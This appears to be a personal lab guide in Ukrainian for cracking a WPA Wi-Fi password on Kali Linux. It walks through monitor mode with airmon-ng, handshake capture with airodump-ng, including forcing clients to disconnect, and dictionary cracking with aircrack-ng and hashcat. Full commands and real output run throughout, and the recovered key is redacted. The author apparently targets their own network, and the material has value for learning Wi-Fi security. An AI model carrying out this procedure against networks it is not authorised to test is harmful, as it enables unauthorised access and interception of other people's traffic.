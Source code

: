 ### 1 - Перейти в режим моніторингу

1. Отримати інтерфейси: ```iwconfig```

```┌──(kali㉿kali)-[~]
└─$ iwconfig
lo        no wireless extensions.

eth0      no wireless extensions.

wlan0     IEEE 802.11AC  ESSID:"(Приховано мною)"  Nickname:"WIFI@RTL8821AU"
          Mode:Managed  Frequency:5.2 GHz  Access Point: 60:32:B1:FF:8B:26   
          Bit Rate:434 Mb/s   Sensitivity:0/0  
          Retry:off   RTS thr:off   Fragment thr:off
          Power Management:off
          Link Quality=51/100  Signal level=81/100  Noise level=0/100
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0

wlan1     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```

2. Запустити бажаний інтерфейс в режим моніторингу

```
sudo airmon-ng check kill
sudo airmon-ng start wlan1
```

2.1 ```sudo airmon-ng stop wlan0``` - Якщо запустили монітор не там, де треба

### 2 - Сніфінг через airodump

1. Запустити дамп з монітору

```sudo airodump-ng wlan1mon```

*Скопіювати вивід сюди*

2. Скопіювати BSSID необхідної мережі:

```60:83:E7:CB:9A:1D```

3. Створити dump.cap з хендшейком

```sudo airodump-ng wlan1mon --bssid 60:83:E7:CB:9A:1D -c 11 -w dump```

4. Щоб отримати хендшейк, потрібно, щоб клієнти мережі підключились/відключились. Зачекайте або відключіть клієнтів самостійно. Airodump повідомить, коли хендшейк буде знайдено.

### 3 - Підбір ключа

1. Створити умовний словник паролів в якому зберігається правильний ключ.

```nano wordlist.txt```

2. Підібрати пароль через "словник".

```aircrack-ng dump-01.cap -w wordlist.txt```
```
┌──(kali㉿kali)-[~]
└─$ aircrack-ng dump-02.cap -w wordlist.txt                         
Reading packets, please wait...
Opening dump-02.cap
Read 3874 packets.

   #  BSSID              ESSID                     Encryption

   1  60:83:E7:CB:9A:1D  dkucheruk                 WPA (1 handshake)

Choosing first network as target.

Reading packets, please wait...
Opening dump-02.cap
Read 3874 packets.

1 potential targets


                               Aircrack-ng 1.7 

      [00:00:00] 2/2 keys tested (27.73 k/s) 

      Time left: --

                        KEY FOUND! [ (Приховано мною з причин конфіденційності) ]


      Master Key     : 42 C2 81 A0 D8 44 8D 9F EA 9F (Видалив частину)
                     

      Transient Key  : FC B4 F7 A6 03 A2 
                       
                       1F BC 7B 50 E6 7F 2B F7 96 51 6A A7 4C DF  (Видалив частину)
                       

      EAPOL HMAC     : 23 EC 06 B1 B5 C8 (Видалив частину)

```

### 3.1 - Підбір ключа (Hashcat)

1. Використовуйте wpaclean для очищення захопленого файлу:

```wpaclean clean.cap dump-02.cap```

2. Потім конвертуйте його в формат для Hashcat:

```hcxpcapngtool -o handshake.hccapx clean.cap```

3. Підбір ключа з Hashcat

```hashcat -m 22000 handshake.hccapx wordlist.txt```

```┌──(kali㉿kali)-[~]
└─$ hashcat -m 22000 handshake.hccapx wordlist.txt
hashcat (v6.2.6) starting

/sys/class/hwmon/hwmon4/temp1_input: No such file or directory

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-penryn-Intel(R) Core(TM) i5 CPU       M 520  @ 2.40GHz, 2754/5573 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 8
Maximum password length supported by kernel: 63

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: wordlist.txt
* Passwords.: 2
* Bytes.....: 17
* Keyspace..: 2
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.           

2037925397cae32c55bd03ec06b1b5c8:6083e7cb9a1d:c6c2b497b5a7:dkucheruk:(Приховано мною)
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: handshake.hccapx
Time.Started.....: Sun Oct 27 12:56:22 2024 (1 sec)
Time.Estimated...: Sun Oct 27 12:56:23 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        1 H/s (0.11ms) @ Accel:256 Loops:64 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2/2 (100.00%)
Rejected.........: 1/2 (50.00%)
Restore.Point....: 0/2 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: (Приховано мною) -> (Приховано мною)
Hardware.Mon.#1..: Util: 25%

Started: Sun Oct 27 12:54:28 2024
Stopped: Sun Oct 27 12:56:25 2024
```



